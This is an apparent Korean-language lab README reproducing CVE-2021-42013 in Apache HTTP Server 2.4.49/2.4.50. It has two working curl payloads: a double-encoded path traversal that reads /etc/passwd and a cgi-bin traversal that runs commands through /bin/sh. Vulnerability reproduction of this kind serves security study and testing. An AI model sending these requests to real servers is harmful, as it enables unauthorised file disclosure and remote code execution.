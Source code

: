 ---

**Path traversal and file disclosure vulnerability in Apache HTTP Server 2.4.50 (CVE-2021-42013)**

CVE-2021-42013은 CVE-2021-41773의 불완전한 수정으로 인해 발생한 취약점이다.

Apache는 ../ 문자열을 차단하지만 URL 인코딩을 통해 우회가 가능했다. 

2.4.49 버전에서 해당 취약점을 조치했지만, URL 더블 인코딩으로 또 한번 우회가 가능했다.

이 취약점은 Apache HTTP Server 2.4.49와 2.4.50버전에서 발생하며, 이전 버전에서는 발생하지 않는다.

해당 취약점을 통해 서버 내의 파일들을 읽어 낼 수 있다.

```bash
curl -v --path-as-is http://your-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

![png1](https://github.com/Refrain4/kr-vulhub/assets/90193658/fe2c1d9c-c26c-4984-bf1a-8d152acbe02e)


Apache HTTP 서버에서 mod_cgi 모듈을 사용하도록 설정한 경우 원격 코드가 실행될 수 있는 취약점이 추가로 존재한다.

이를 통해 공격자는 HTTP POST 요청을 통해 시스템의 바이너리를 호출할 수 있다.

아래 HTTP POST 요청을 보면 /bin/sh가 echo;id를 실행하는 시스템 바이너리임을 알 수 있으며, 이에 대한 응답으로 id 명령어의 출력을 출력한다.

```bash
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

![png2](https://github.com/Refrain4/kr-vulhub/assets/90193658/8106019f-0444-48ee-9ab0-ebd6f856c1dd)
